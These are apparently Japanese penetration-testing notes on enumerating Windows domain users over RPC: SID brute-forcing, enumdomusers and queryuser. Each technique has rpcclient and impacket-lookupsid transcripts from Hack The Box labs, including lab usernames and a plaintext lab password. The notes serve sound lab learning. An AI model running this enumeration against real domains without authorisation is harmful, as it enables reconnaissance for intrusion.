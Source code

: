 # Attack
----

## SID Bruteforce
* セキュリティ識別子（SID）は`S-1-5-ドメイン識別子-相対識別子`で構成される
* ドメイン識別子は予め定められていないが、Administratorなどの一部の相対識別子は予め定められている
  * なお`S-1-5-21-ドメイン識別子-500`はAdministratorである
  * 詳細は[オペレーティング システムの既知のWindows識別子](https://docs.microsoft.com/ja-jp/troubleshoot/windows-server/identity/security-identifiers-in-windows)を参照
* rpcにアクセス可能な権限を有する時、`lookupnames`でドメイン識別子を取得可能
* `lookupsids`でSIDからユーザ名の取得が可能であるため、相対識別子の総当りを行うことで、該当のドメインのユーザを列挙可能
* 上記の相対識別子の総当りを自動化したimpacketのlookupsidsを利用可能
* HTB: Heist

  ```console
  ┌─[✗]─[rio@parrot]─[~/Htb/Heist]
  └──╼ $rpcclient -U hazard -h heist.htb
  Enter WORKGROUP\hazard's password:
  rpcclient $> lookupnames hazard
  hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1009
  S-1-5-21-4254423774-1266059056-3197185112-1009 SUPPORTDESK\support (1)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1010
  S-1-5-21-4254423774-1266059056-3197185112-1010 *unknown*\*unknown* (8)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1011
  S-1-5-21-4254423774-1266059056-3197185112-1011 *unknown*\*unknown* (8)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1012
  S-1-5-21-4254423774-1266059056-3197185112-1012 SUPPORTDESK\Chase (1)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1013
  S-1-5-21-4254423774-1266059056-3197185112-1013 SUPPORTDESK\Jason (1)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1014
  S-1-5-21-4254423774-1266059056-3197185112-1014 *unknown*\*unknown* (8)
  rpcclient $> ^C
  ┌─[✗]─[rio@parrot]─[~/Htb/Heist]
  └──╼ $impacket-lookupsid hazard:stealth1agent@heist.htb
  Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
  
  [*] Brute forcing SIDs at heist.htb
  [*] StringBinding ncacn_np:heist.htb[\pipe\lsarpc]
  [*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
  500: SUPPORTDESK\Administrator (SidTypeUser)
  501: SUPPORTDESK\Guest (SidTypeUser)
  503: SUPPORTDESK\DefaultAccount (SidTypeUser)
  504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
  513: SUPPORTDESK\None (SidTypeGroup)
  1008: SUPPORTDESK\Hazard (SidTypeUser)
  1009: SUPPORTDESK\support (SidTypeUser)
  1012: SUPPORTDESK\Chase (SidTypeUser)
  1013: SUPPORTDESK\Jason (SidTypeUser)
  ```

##  enumdomusers
* enumdomusersを利用し、ドメインユーザを列挙可能
* HTB: Active

  ```console
  ┌─[✗]─[rio@parrot]─[~/Htb/Active]
  └──╼ $rpcclient -U svc_tgs -h active.htb
  Enter WORKGROUP\svc_tgs's password:
  rpcclient $> enumdomusers
  user:[Administrator] rid:[0x1f4]
  user:[Guest] rid:[0x1f5]
  user:[krbtgt] rid:[0x1f6]
  user:[SVC_TGS] rid:[0x44f]
  rpcclient $> ^C
  ```

## queryuser
* queryuserを利用し、ユーザのパスワード設定時刻を取得可能
* HTB: Active

  ```console
  ┌─[✗]─[rio@parrot]─[~/Htb/Active]
  └──╼ $rpcclient -U svc_tgs -h active.htb
  Enter WORKGROUP\svc_tgs's password:
  rpcclient $> queryuser administrator
          User Name   :   Administrator
          Full Name   :
          Home Drive  :
          Dir Drive   :
          Profile Path:
          Logon Script:
          Description :   Built-in account for administering the computer/domain
          Workstations:
          Comment     :
          Remote Dial :
          Logon Time               :      金, 22  1月 2021 17:42:31 JST
          Logoff Time              :      木, 01  1月 1970 09:00:00 JST
          Kickoff Time             :      木, 01  1月 1970 09:00:00 JST
          Password last set Time   :      木, 19  7月 2018 04:06:40 JST
          Password can change Time :      金, 20  7月 2018 04:06:40 JST
          Password must change Time:      木, 14  9月 30828 11:48:05 JST
          unknown_2[0..31]...
          user_rid :      0x1f4
          group_rid:      0x201
          acb_info :      0x00000210
          fields_present: 0x00ffffff
          logon_divs:     168
          bad_password_count:     0x00000000
          logon_count:    0x00000023
          padding1[0..7]...
          logon_hrs[0..21]...
  rpcclient $> ^C
  ```

  
